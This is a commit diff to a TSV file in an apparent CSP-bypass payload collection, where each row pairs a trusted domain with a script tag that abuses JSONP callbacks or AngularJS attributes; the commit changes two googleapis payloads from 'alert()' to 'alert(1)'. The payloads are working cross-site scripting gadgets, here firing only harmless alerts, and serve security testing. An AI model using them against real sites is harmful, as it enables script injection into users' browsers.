

Before and after one commit to rcbarnett/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Added attributes to googleapis payloads

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -191,4 +191,4 @@ www.google.com	<script src="https://www.google.com/complete/search?client=chrome
 www.google.com	<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script><img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
-www.googleapis.com	<script src="https://www.googleapis.com/blogger/v3/blogs/1/posts/1?callback=alert()"></script>
-www.googleapis.com	<script src="https://www.googleapis.com/books/v1/volumes?q=bug+bounty&callback=alert"></script>
+www.googleapis.com	<script src="https://www.googleapis.com/blogger/v3/blogs/1/posts/1?callback=alert(1)"></script>
+www.googleapis.com	<script src="https://www.googleapis.com/books/v1/volumes?q=bug+bounty&callback=alert(1)"></script>
 www.googleapis.com	<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)"></script>
```
